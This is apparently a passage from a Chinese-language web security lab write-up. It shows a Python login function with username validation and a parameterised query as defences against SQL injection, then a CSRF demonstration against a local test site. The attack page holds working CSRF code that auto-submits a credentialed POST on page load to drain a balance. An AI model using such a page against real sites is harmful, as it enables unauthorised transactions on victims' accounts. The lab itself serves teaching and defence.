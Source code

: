 ```python
            return func(*args, **kwargs)
        else:
            return "illegal username。 用户名只能是[5,64]字符的数字或英文字母"
    return wrapper

@check_username
def login(username, pw):
    db = connect_db()
    for (u,s,p) in db.cursor().execute("SELECT username, salt, pw FROM users WHERE username = ?" , (username,)).fetchall():
        print(u,s,p)
        hash = get_hash(s, pw)
        if(p == hash):
            return "登录成功"
        else:
            return "用户名或密码错误"
        
    return "用户名或密码错误"

```
其中的`@check_username`的行为是，检查函数的第一个参数是否只由5到64个数字或英文字母组成。如果不是，直接返回`illegal username`。
这样的做法使得用于攻击（因而需要含有数字和字母以外的字符）的字符串无法作为合法的用户名而不会被用在任何sql语句中。

CSRF攻击：

实现victim网站，其中有`/comsume`这样一个会扣减用户账户余额的POST接口。这个接口用cookie分辨用户。部署在`127.0.0.1:3000`

实现攻击页面。其中核心代码如下：
```js

  <body onload="submitForm();">
    <div class="tip">attacking...</div>
    <form id="consume" action="http://127.0.0.1:3000/consume" method="POST">
      <input type="hidden" name="amount" value="666" />
    </form>
  </body>

  <script>
    function submitForm() {
      var form = document.getElementById("consume");

      var formData = new FormData(form);

      fetch(form.action, {
        method: form.method,
        body: formData,
        mode: 'cors',
        credentials: 'include'
      })
        .then(function (response) {
          // 检查响应状态码,如果是重定向则忽略
          if (response.redirected) {
            alert("Redirecting to: " + response.url);
          } else {
            return response.json();
          }
        })
        .then(function (data) {
          console.log(data);
        })
        .catch(function (error) {
          console.error(error);
        });
    }
```